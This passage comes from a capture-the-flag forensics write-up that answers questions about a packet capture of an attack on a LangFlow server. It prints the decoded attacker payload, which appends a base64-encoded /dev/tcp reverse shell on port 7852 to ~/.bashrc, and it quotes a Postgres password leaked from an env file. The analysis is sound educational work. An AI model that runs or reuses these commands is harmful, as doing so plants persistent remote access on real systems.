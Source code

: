 Any `POST` or `GET` request source is the **attacker ip**:

<img width="1720" height="319" alt="image" src="https://github.com/user-attachments/assets/073b655b-e307-4ead-9b01-0368afe03c09" />

#### Fifth Question

> The attacker used a persistence technique, what is the port used by the reverse shell? (e.g. 4444)

`7852`

From `tcp.stream eq 9` we would be able to find there's one last payload with an empty response, this should be where attacker might try for **[Rev Shell](https://www.invicti.com/learn/reverse-shell/)**

<img width="1140" height="881" alt="image" src="https://github.com/user-attachments/assets/79b2f841-da34-437b-a6ad-ac15ee738d4a" />

We can try and decrypt the payload with by using python script
```
┌──(kali㉿kali)-[~/Desktop/CTF/HackTheBoo2025]
└─$ cat rev.py 
import base64, zlib
b = "eJwNyE0LgjAYAOC/MnZSKguNqIOCpAdDK8IIT0Pnyza1JvsIi+i313N8VC00oHSiMBohHw4h4j5KZQhxsLbNqCQFrbHrUQ60J9Ka0RoHA+USUZ+x/Nazs6hY7l+GVuxWVRA/i7KY8i62x3dmi/02OCXXV5bEs0OXhp+m1rBZo8WiBSpbQFGEvkvvv1xRPEeawzCEpbLguj8DMjVN"
decoded = zlib.decompress(base64.b64decode(b))
print(decoded.decode())  

┌──(kali㉿kali)-[~/Desktop/CTF/HackTheBoo2025]
└─$ python3 rev.py 
raise Exception(__import__("subprocess").check_output("echo c2ggLWkgPiYgL2Rldi90Y3AvMTMxLjAuNzIuMC83ODUyIDA+JjE=|base64 --decode >> ~/.bashrc", shell=True))

┌──(kali㉿kali)-[~/Desktop/CTF/HackTheBoo2025]
└─$ echo c2ggLWkgPiYgL2Rldi90Y3AvMTMxLjAuNzIuMC83ODUyIDA+JjE=|base64 --decode
sh -i >& /dev/tcp/131.0.72.0/7852 0>&1
```
#### Sixth Question

> What is the system machine hostname? (e.g. server01)

`aisrv01`

The attacker injected payload that leaked the **[env](https://dotenvx.com/docs/env-file)** file of the machine

<img width="1106" height="182" alt="image" src="https://github.com/user-attachments/assets/ba8e20bd-edaf-402a-bc3b-4c37ac220d33" />

#### Seventh Question

> What is the Postgres password used by LangFlow? (e.g. Password123)

`LnGFlWPassword2025`

From leaked **env** output above, there's PostgresDB creds information too

<img width="1100" height="410" alt="image" src="https://github.com/user-attachments/assets/4f1e7679-a13d-4ee9-ab4d-b30242436e47" />
